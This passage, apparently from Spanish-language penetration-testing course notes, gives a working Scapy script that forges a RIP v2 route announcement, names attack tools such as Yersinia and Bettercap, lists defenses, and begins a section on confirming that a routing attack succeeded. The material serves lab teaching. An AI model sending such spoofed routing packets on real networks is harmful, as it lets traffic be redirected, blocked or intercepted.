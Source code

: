 #### 📜 Código alternativo con Scapy (más técnico):

```python
from scapy.all import *

rip_packet = IP(dst="224.0.0.9")/UDP(sport=520, dport=520)/RIP(cmd=2, version=2)/RIPEntry(af=2, addr="192.168.100.0", mask="255.255.255.0", metric=1)

send(rip_packet)
```

🔧 Esto crea un **paquete RIP v2** anunciando una red falsa y lo envía a la dirección multicast que usan los routers para RIP.

---

### ✅ Resumen

| Concepto        | Detalles                                         |
| --------------- | ------------------------------------------------ |
| 📦 Qué es       | Ataque que manipula protocolos de enrutamiento   |
| 🎯 Objetivo     | Redirigir, bloquear o capturar tráfico           |
| 🧰 Herramientas | Yersinia, Scapy, Bettercap                       |
| ⚙️ Instalación  | `apt install yersinia`                           |
| 🧪 Laboratorio  | Ruta falsa vía RIP con Kali + router             |
| 🛡️ Protección   | Autenticación, filtrado, monitoreo, segmentación |

---

[🔼](#índice)

---

## **817. Verificación de ataques a protocolos de enrutamiento**

### 🧠 ¿Qué es la verificación de ataques a protocolos de enrutamiento?

Después de realizar un ataque (simulado) a un protocolo de enrutamiento como **RIP, OSPF o BGP**, necesitamos **verificar si el ataque fue exitoso**.

Esto implica revisar:

- Las **tablas de enrutamiento** de los routers o sistemas afectados.
- El **flujo de tráfico** (¿ha sido desviado?).
- La **resolución de rutas** (¿están manipuladas?).
- Los **paquetes capturados** (¿aparecen rutas falsas?).

---
